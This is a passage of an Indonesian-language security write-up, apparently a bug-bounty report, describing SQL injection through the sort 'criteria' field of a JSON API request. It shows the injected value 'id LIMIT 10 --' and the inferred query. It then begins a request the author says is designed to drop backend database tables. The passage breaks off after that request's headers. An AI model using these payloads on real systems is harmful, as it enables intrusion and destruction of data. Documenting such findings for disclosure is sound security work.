 ```sh
Te: trailers
Content-Length: 332

{
  "dataProvider": {
    "criterion": [
      {
        "criteria": "keyword",
        "operator": "LK",
        "value": "",
        "custom": true
      }
    ],
    "page": {
      "count": 2,
      "current": 2,
      "limit": 10,
      "next": 2,
      "previous": -1,
      "total": 11
    },
    "sort": [
      {
        "criteria": "id LIMIT 10 --", // dimasukan query LIMIT dan -- 
        "order": "DESC"
      }
    ]
  }
}
```

<p style="text-align: justify; letter-spacing: 0.002em;">
Ternyata benar dugaan saya, dengan melempar payload tersebut kita berhasil mendapatkan responses berupa API dengan object didalam array berjumlah 10 data. menurut analisa saya query yang dihasilkan berupa 
</p>


```sql
SELECT * FROM sometable ORDER BY id LIMIT 10 -- DESC
```

<p style="text-align: justify; letter-spacing: 0.002em;">
dan Booommmm !!!! dengan payload tersebut sukses untuk melakukan Query 
</p>

<p style="text-align: justify; letter-spacing: 0.002em;">
Oke langsung saja tanpa panjang lebar saya berikan design payload yang saya buat untuk menghapus table pada databases backend 
</p>

```sh
POST /api/xxxxx HTTP/1.1
Host: target.id
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Connection: close
Accept-Language: en-US,en;q=0.5
Authorization: Bearer xxxxxxxxxx
Content-Type: application/json
Origin: https://target.id
Referer: https://target.id/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```